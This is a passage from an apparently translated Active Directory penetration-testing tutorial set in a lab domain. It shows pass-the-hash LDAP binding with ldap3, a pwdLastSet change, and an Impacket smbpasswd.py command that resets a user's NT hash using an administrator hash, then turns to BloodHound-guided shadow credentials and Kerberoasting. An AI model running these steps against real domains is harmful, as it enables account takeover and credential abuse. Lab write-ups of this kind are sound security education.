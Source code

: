     
    
    # python3  
    >>> import ldap3  
    >>> from ldap3 import ALL, Server, Connection, NTLM, extend, SUBTREE  
    >>> server = ldap3.Server('n00py.local',get_info = ldap3.ALL, port=636, use_ssl = True)  
    >>> user = 'n00py.local\\Administrator'  
    >>> password =’<LM HASH>:<NT HASH>’  
    >>> c = Connection(server, user, password=password, authentication=NTLM)  
    >>> c.bind()  
    True  
    >>> from ldap3 import MODIFY_ADD, MODIFY_REPLACE, MODIFY_DELETE  
    >>> changeUACattribute = {"PwdLastSet":  (MODIFY_REPLACE, ["-1"]) }  
    >>> c.modify('CN=ESTEBAN DA,OU=EMPLOYEES,DC=N00PY,DC=LOCAL', changes=changeUACattribute)  
    True  
    

 **删除过期密码属性**

然后将 esteban_da 帐户设置回其原始配置。

另一个 _Impacket_ PR #1171的工作方式大致相同，但语法略有不同。

    
    
    # python3 smbpasswd.py n00py.local/esteban_da:@n00py.local -newhashes :<ESTEBAN_DA NT HASH> -altuser n00py.local/administrator -althash <ADMINISTRATOR NT HASH> -admin  
       
    Impacket v0.9.24.dev1+20220226.11205.67342473 - Copyright 2021 SecureAuth Corporation  
       
       
    [*] Credentials were injected into SAM successfully.  
    

 **使用 Impacket 重置 NT 哈希并绕过密码历史 PR 1171**

##  奖励：影子凭证

我们是否需要重置 esteban_da 的密码才能控制它？答案实际上是否定的，我们没有。再一次，让我们看一下 _BloodHound_ 图：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220310170407.png)

BloodHound 攻击路径

我们看到，我们不仅拥有重置密码的权限，而且还拥有 _GenericWrite_ 权限。但是，这是什么意思？如果我们查看 _BloodHound_
滥用信息，它会让我们知道我们也可以执行有针对性的 Kerberoast 攻击。

很好，但这仍然需要我们能够从 Kerberos 票证中恢复明文密码，除非用户密码较弱，否则这是不可能的。

此外， _BloodHound_ 提示并非包罗万象， _BloodHound_ 并不总是向您显示从一个 1
对象到另一个对象的每条可用边。这是因为某些边是隐式的，例如 _GenericAll_ ，这意味着您也有 _GenericWrite_ ，因此列出来是多余的。

如果我们要删除 _GenericWrite_ 并重新运行 _BloodHound_ 集合，我们会看到：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220310170415.png)

